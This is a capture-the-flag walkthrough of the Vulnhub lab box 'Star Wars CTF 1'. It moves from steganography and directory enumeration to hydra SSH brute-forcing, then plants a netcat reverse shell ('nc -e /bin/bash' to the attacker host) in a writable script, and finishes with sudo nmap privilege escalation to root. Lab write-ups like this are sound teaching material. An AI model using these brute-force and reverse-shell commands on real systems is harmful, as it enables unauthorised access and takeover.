

# This is the write up for the Vulnhub box STAR WARS CTF 1 

Box Ip Address: 10.38.1.114

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:


The two open ports are the HTTP port 80 and the SSH port of 22. With port 80 being open, we can assume that this is a web server. Upon navigating to the address `10.38.1.114` we are greeted with this page:


It seems as if there is something hidden on this page. If we look at the inspector code through firefox we see this:


This tips us off that there is, in fact, something hidden here. WWe can use this command to download both the files:

```
wget http://10.38.1.114/images/yoda.jpg
```
and

```
wget http://10.38.1.114/images/yoda.png
```

Since we cannot use the steghide command without a password we turn to online for a `steganography decoder`.

The decoder I used was at this site:

`stylesuxx.github.io/steganography`

Upon uploading the .png image and hitting `decode` we get this output:


So we can see the password is: `babyYoda123`

Now time to find the username(s)

We can use `gobuster` again but this time also specifying for certain file types such as `php` `js` and `txt`.

If we use this command, these are the results:

```
gobuster dir -u 10.38.1.114 -w /usr/share/wordlists/dirb/common.txt -x php,js,txt
```


The `users.js` file looks interesting. Upon navigating to that file this is what we see:


We can see the two users in this file are `han` and `skywalker`

If we navigate to the `/admin` domain we are greeted with this login page:



After trying both users with the password `babyYoda123` we are unable to login. 

However, during our initial nmap scan we saw that the `SSH` port of `22` was open. Maybe one of those users will work with `SSH`


We can see from this output that the user `skywalker` did not work with the password, but the user han did. We are now in as the user `han`

```
ls -la
```

Running this command we can see there is a `.secrets` directory, lets see what is in there.


If we change directories and look into the files we see a `note.txt` file. 


If we `cat` the `note.txt` file this is the output:

 

The spelling `cewl` is a tip off on our next step. Also we can add Anakin to our list of potential users to pivot to.

`Cewl` is custom wordlist generator and given what we have seen I think we are supposed to use it on the `/r2d2` webpage to generate a list of passwords to brute force with.

Back on our home `Desktop`

If we run this command we can generate a file for a list of password.

```
cewl http://10.38.1.114/r2d2 -w passwords.txt
```

Now that we have a list of passwords we can use this command to brute force our way through logging in using `SSH` with our two users.

```
hydra -l anakin -P ./passwords.txt 10.38.1.114 -t 4 ssh
```

The results for the user `anakin` didn't return any results but running that same command for the user `skywalker` gives us this result:


`SSH`ing into the user `skywalker` and viewing the directory we see there is another `.secrets` directory.

The contents of which is another `note.txt` that contains this message:


From this we can assume that `Darth` must be another user. Lets see if we can run the Hydra command from earlier in an attempt to brute force the password for `Darth`.

```
hydra -l darth -P ./passwords.txt 10.38.1.114 -t 4 ssh1
```

With no avail to brute force the password, lets see if we can access `Darth`'s home directory:

```
cd /home/Darth/
```
Upon navigating and traversing through the directories we see that there is a writable python script:


The contents of the script currently are irrelevant, however we can change it to use a netcat listener to give us a reverse shell.

```
import os
os.system("nc -e /bin/bash 10.38.1.110 1234")
```
After replacing with the above code and navigating to a new terminal we input the command to start our listener 
```
nc -lnvp 1234
```

We wait a minute and are greeted with this connection, we can use `whoami` to confirm we are infact the user `Darth`:


In order to get a proper bash shell we can use this command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


We now have our shell, let's see what kind of permissions we have as `Darth`. We can use this command to see if we hold `sudo` privileges for anything: 

```
sudo -l
```

We can see by this output we do in fact have `sudo` privileges for nmap.


We can see that we are running `nmap` version 7.70


After some looking in the man pages we see that this version of nmap can run lua scripts. Looking on the internet we find this write up for how to use a lua script with nmap to gain root privileges:


After running the command and checking `whoami` we can see that we have gained root access.


After `cd` to `/root` and looking at all the files we can see one called `flag.txt`


When we `cat` the file se are shown this output!!!


# Congratulations!!!

#### Thanks so much for coming along on this journey with me